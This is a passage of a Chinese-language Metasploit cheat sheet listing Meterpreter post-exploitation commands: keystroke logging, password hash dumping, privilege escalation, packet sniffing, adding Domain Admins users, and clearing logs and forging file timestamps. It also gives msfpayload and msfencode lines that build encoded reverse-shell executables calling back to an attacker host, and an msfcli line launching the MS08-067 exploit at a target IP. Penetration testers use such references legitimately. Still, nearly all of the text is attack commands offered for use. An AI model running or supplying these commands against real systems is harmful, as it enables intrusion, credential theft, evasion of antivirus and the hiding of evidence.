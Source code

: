 * execute -f cmd.exe -i -H -t 同上，同时隐藏进程
* rev2self 返回至初始用户
* reg command 修改注册表
* setkesktop number 切换至另一已登录用户屏幕
* screenshot 截屏
* upload file 上传文件
* download file  下载文件
* keyscan_start 开始截取击键记录
* keyscan_stop 停止截取击键记录
* getprivs 尽可能提升权限
* uictl enable keyboard/mouse 获取键盘或鼠标的控制权
* background 将当前meterpreter shell转入后台
* hashdump 导出所有用户hash
* use sniffer 加载嗅探模块
* sniffer_interfaces 查看可用网卡接口
* sniffer_dump interfaceID pcapname 开始嗅探
* sniffer_start interfaceID packet-buffer 指定buffer范围嗅探
* sniffer_stats interfaceID   抓取统计信息
* sniffer_stop interfaceID  停止嗅探
* add_user username password -h ip 添加用户
* add_group_user "Domain Admins" username -h ip 添加用户至管理组
* clearev 清空日志
* timestomp 改变文件属性如创建时间等
* reboot 重启


### MSFpayload Commands

* msfpayload -h 查看帮助
* msfpayload windows/meterpreter/bind_tcp 0 查看指定payload可用选项
* msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 X > payload.exe 生成payload.exe
* msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 R > payload.raw 保存为RAW格式，可用于msfencode
* msfpayload windows/meterpreter/bind_tcp LPORT=443 C > payload.c 保存为C格式
* msfpayload windows/meterpreter/bind_tcp LPORT=443 J > payload.java 保存为java格式

### MSFencode Commands

* msfencode -h 查看帮助
* msfencode -l 查看可用encoder
* msfencode -t (c,elf.exe,java.js_le,js_be,perl,raw,ruby,vba,vbs,loop-vbs,asp,war,macho) 以指定格式显示编码后的buffer
* msfencode -i payload.raw -o encoded_payload.exe -e x86/shikata_ga_nai -c 5 -t exe 生成编码后的exe
* msfencode -i payload.raw BufferRegister=ESI -e x86/alpha_mixed -t c 生成纯字符格式C类型shellcode
* msfpayload windows/meterpreter/bind_tcp LPORT=443 R | \
  msfencode -e x86/countdown -c 5 -t raw | \
  msfencode -e x86/shikata_ga_nai -c 5 -t exe -o multi-encoded.exe 多编码器结合，多次编码

### MSFcli Commands

* `msfcli | grep exploit` 只显示exploit
* `msfcli | grep exploit/windows` 只显示windows exploit
* `msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.26 E` 针对指定IP加载指定exp并设定payload
